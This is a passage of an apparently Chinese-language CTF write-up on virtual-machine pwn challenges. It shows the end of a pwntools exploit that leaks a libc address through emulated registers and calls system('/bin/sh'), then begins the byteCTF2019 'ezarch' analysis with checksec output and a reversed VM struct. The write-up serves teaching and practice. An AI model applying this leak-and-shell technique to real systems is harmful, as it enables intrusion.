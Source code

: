 ```
        add(5,5,1),
        set(1,47),
        add(2,2,1),
        write(5,2), #memory[-8] = reg[5]
        set(1,1),
        add(2,2,1),
        write(6,2), #memory[-7] = reg[6]
        u32((p8(0xff)+p8(0)+p8(0)+p8(0))[::-1])
    ]
    init(0,1,layout)

    ru('R5: ')
    low_byte = int(ru('n'), 16)
    ru('R6: ')
    high_byte = int(ru('n'), 16)

    libc = high_byte &lt;&lt; 32
    libc += low_byte
    print hex(libc)

    system = libc - 0x39e4a0
    sl('/bin/sh'+p64(system))

    irt()
```



## byteCTF2019-ezarch

这道题目模拟了虚拟机的行为，在命令处理过程当中，由于对于限制条件的设置不当，导致可以改写内存。

```
iddm@ubuntu:~/Desktop/CTF/VM_PWN/ezarch⟫ checksec ezarch
[*] '/home/iddm/Desktop/CTF/VM_PWN/ezarch/ezarch'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### <a class="reference-link" name="%E9%A2%98%E7%9B%AE%E9%80%BB%E8%BE%91"></a>题目逻辑

首先引出虚拟机的控制结构,逆向时插入结构体方便分析，此结构位于bss段中。

```
00000000 Container       struc ; (sizeof=0x46C, mappedto_7)
00000000 mem             dq ? //malloc申请的内存
00000008 stack           dq ? //vm 模拟stack
00000010 stack_size      dd ? //stack_size 固定大小0x1000
00000014 mem_size        dd ? //malloc_size
00000018 breakpoints     dd 256 dup(?)
00000418 R               dd 16 dup(?)//模拟R0-R15寄存器
00000458 _eip            dd ?
0000045C _esp            dd ?
00000460 _ebp            dd ?
00000464 _eflags         dq ?
0000046C Container       ends
```
